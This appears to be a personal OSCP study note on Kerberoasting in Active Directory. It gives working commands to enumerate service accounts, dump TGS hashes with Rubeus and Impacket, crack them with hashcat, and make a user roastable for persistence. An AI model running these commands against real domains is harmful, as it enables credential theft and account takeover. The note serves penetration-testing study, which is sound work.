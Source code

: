 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/13. Active Directory Attacks/4. Kerberoasting/"}
---
```


-------
- a.k.a TGS-REP roasting
- Client requests a service ticket generated by the DC.
- No checks are done until the ticket is used to authenticate, since it is hashed.
- If the SPN runs in the context of a computer account, managed service account, or group-managed service account, the password will be randomly generated 120 chars.
- Same is true for "krbtgt" user.
- Hence, user accounts are often the way to crack.
-------------------
### Enumerate Kerberoastable users:
- Setspn:
```
setspn.exe -Q */*
```
- PowerView:
```
Get-NetUser -SPN | select serviceprincipalname
```
- Rubeus:
```
\Rubeus.exe kerberoast /stats
```
-------------
### Local Kerberoasting with Rubeus:
1. Start the roast:
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
2. Crack hash on kali:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
------------
### Remote Kerberoasting with Impacket:
1. Start the roast:
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
2. Crack hash:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Note: If Impacket throughs error "KRB_AP_ERR_SKEW(Clock skew too great)", the time of Kali needs to be synchronized with the DC. Do that using "ntpdate" or "rdate".
-------------------
### Targeted Kerberoasting Abuse/Persistence:
Make user kerberoastable where we have write privileges:
```
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
